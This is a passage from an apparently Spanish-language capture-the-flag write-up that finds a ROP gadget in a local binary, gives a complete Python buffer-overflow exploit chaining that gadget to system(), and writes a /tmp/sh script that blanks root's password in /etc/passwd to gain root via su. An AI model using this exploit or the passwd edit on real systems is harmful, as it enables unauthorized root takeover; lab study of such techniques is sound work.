[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r13

[INFO] File: ./shell
0x000000000040149d: pop r13; ret; 

❯ 
```

como vemos, la dirección de el gadget seria `0x40149d`, por lo que ya tendriamos el exploit completo:

```python
import subprocess
import struct


def p64(num):
    return struct.pack("<Q", num)        


def exploit():


  binario = ["./shell"]

  offset = 128
  junk = b"A"*offset
  RIP = b"B"*6
  


  pop_r13 = p64(0x40149d)
  _x2 = p64(0x4014a3)
  system = p64(0x401040)
  tmp_shell = b"/tmp/sh\x00"
  

  payload = junk + tmp_shell + pop_r13  + system + _x2


  p = subprocess.Popen(
          binario, stdin=subprocess.PIPE
  )
  p.stdin.write(payload + b"\n")
  p.stdin.flush()

  p.wait()


if __name__ == '__main__':
    exploit()
```

Lo último que nos quedaría antes de ejecutar el exploit, es crear un script en `/tmp/` llamado `sh` que ejecute lo que queramos que nos permita escalar a root, en mi caso quitará la "x" del archivo `/etc/passwd` para que al ejecutar `su` pueda escalar sin necesidad de poner contraseña:

```css
echo '#!/bin/bash' > /tmp/sh && echo 'sed "s/root:x:/root::/g" -i /etc/passwd' >> /tmp/sh && chmod 777 /tmp/sh
```

y listo, ejecutamos el exploit y al hacerlo solo nos queda ejecutar `su` y seremos root.

### Root



Gracias por leer ;)
